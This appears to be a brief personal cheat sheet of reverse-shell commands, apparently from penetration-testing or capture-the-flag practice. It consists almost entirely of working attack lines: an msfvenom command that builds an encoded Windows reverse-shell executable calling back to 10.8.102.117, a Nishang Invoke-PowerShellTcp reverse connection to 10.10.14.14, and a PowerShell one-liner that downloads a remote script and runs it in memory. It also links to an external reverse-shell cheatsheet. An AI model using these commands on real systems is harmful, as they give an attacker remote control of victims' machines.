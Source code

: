 msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy




##Nishang 

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')



